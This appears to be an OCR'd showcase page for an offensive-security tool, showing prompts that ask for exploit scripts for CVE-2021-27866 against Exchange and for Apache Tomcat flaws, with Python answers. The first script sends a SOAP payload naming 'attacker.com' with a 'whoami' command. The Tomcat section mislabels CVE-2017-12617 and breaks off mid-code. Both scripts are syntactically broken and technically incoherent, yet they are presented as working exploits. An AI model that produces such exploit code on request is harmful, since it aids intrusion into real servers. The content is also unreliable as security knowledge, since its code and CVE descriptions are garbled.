 >Prompt: Write a script about the CVE-2021-27866 in Python

```python
import requests
import json

# Define the base URL for the vulnerable Exchange Server
base_url = 'http://example.com/EWS/Exchange.asmx'

# Define the payload to be sent in the request
payload = {'Caller': 'https://attacker.com', 'Command': 'whoami'}

# The function that sends the crafted XML requests
def exploit(url):
    # Construct the XML request body
    xml_payload = "<soapenv:Envelope xmlns:soapenv=\"http://schemas.xmlsoap.org/soap/envelope/\"
xmlns:tem=\"http://tempuri.org/\">" + json.dumps(payload)
    xml_payload += "</soapenv:Body></soapenv:Envelope>"
    headers = {'Content-Type': 'text/xml; charset=utf-8')

    # Send the exploit request
    try:
        response = requests.post(url, data=xml_payload, headers=headers)

        # If the response is successful (status code 200), extract and print the response
        if response.status_code == 200:
            result = json.loads(response.text)
            print("Response: ", result)
    except requests.exceptions.RequestException as e:
        # If an exception occurs, print the error message
        print("Error:", e)

# Call the exploit function with the base URL
exploit(base_url)
```

### exploit finder (offline)

#### Apache Tomcat 

> Prompt: Tell me some exploits of Apache Tomcat

Apache Tomcat is a popular open-source Java servlet container that can be used to deploy Java web applications. It's widely deployed, so it has been subjected to various vulnerabilities over the years. Here are some common exploits of Apache Tomcat,
along with Python code to demonstrate how one might attempt to exploit them (in a controlled environment for educational purposes only). Note that actual exploitation without authorization is illegal and unethical.

1. **Apache Tomcat Manager Deserialization Vulnerability**: This vulnerability (CVE-2017-12617) allowed an attacker to perform arbitrary code execution by deserializing objects in a manner that could lead to Remote Code Execution (RCE).

```python
import requests

# Define the base URL for the vulnerable Apache Tomcat Manager
base_url = 'http://example.com/manager/'

# The function that sends the crafted request
def exploit(url):
    headers = {'Content-Type': 'application/json'}
    payload = {'\'' : "java.util.Properties" }

    # Send the exploit request
    try:
```